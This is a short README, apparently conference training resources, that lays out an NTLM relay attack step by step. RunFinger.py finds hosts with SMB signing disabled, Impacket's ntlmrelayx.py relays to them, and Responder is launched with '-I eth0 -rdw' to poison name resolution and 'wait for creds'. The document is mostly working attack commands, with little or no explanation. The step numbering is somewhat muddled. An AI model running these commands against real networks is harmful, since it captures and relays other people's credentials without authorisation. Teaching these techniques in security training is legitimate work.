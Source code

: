 # DojoConf-Recursos

comando de Busqueda herramientas:
find /var/log/ -name "error.log" -print

1. Identify network systems that do not require SMB message validation
    Run python  RunFinger.py -i IP_Range to detect machine with SMB signing:disabled.
    Configure Impacket’s NTLMrelayx to target those systems
    echo "IP"  >> targets.txt
    ntlmrelayx.py -tf targets.txt --smb2support
2. Disable SMB and HTTP response poisoning in Responder and launch
    cd /usr/share/responder
    gedit Responder.conf
3. Open the Responder.conf file and set the value of SMB and HTTP to Off
    Responder.py -I eth0 -rdw
Wait for creds

